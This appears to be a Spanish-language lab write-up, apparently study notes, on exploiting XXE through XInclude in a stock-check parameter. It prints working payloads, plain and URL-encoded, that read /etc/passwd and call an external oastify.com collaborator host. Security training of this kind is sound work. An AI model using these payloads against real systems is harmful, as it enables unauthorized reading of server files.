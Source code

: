 Aqui mismo dice muy bien XML Injection, y una de las vulnerabilideades que podemos explotar con el XXE es poder leer u obtener archivos arbitrarios, en este caso vemos que tanto el parametro productId como el parametro storeId son vulnerables al XXE.

![[Pasted image 20250220165855.png]]

```xml
<lws xmlns:xi="http://www.w3.org/2001
/XInclude"><xi:include href="http://0
207gntpn7jh8wuysc7sf9k1tszlngbhz9mzao.oastify.
com/foo"/></lws> 
En este caso ofuscado a URl: 
%3clws%20xmlns%3axi%3d%22http%3a%2f%2fwww.w3.org%2f2001%2fXInclude%22%3e%3cxi%3ainclude%20href%3d%22http%3a%2f%2f0207gntpn7jh8wuysc7sf9k1tszlngbhz9mzao.oastify.com%2ffoo%22%2f%3e%3c%2flws%3e
SIN EMBARGO EN HREF PODRÍA SER POSIBLE PROBAR TAMBIEN: 
"file:///etc/passwd"
```

Vemos que en el ejemplo de ataque la etiqueta XML de ataque es importando un XInclude, si yo llego e intento crear el ataque manualmente puedo llegar a hacerlo si no tuviera un tiempo definido contra reloj pero en este caso tenemos 10 min contados para resolver el lab, en este caso con la DB de payload-all the things podemos indagar sobre los ataques y encontramos que hay un tipo de ataque XXE el cual se basa en la importación de XInclude debido a que no se puede llamar a la DTD osea la Doctype, y si en esencia no se podía yo había intentado con todos mi payloads de mi material de estudio sobre XXE, como:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>

<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

Pero en este caso no era por ahí sino por la forma de XiNCLUDE.

![[Pasted image 20250220170004.png]]

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

En ese caso basta con tomarlo e intentar obfuscarlo a URL tal cual como el PoC que burp scanner nos dejó.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

%3Cfoo%20xmlns%3Axi%3D%22http%3A%2F%2Fwww.w3.org%2F2001%2FXInclude%22%3E%0A%3Cxi%3Ainclude%20parse%3D%22text%22%20href%3D%22file%3A%2F%2F%2Fetc%2Fpasswd%22%2F%3E%3C%2Ffoo%3E
```

![[Pasted image 20250220170103.png]]

![[Pasted image 20250220170111.png]]

---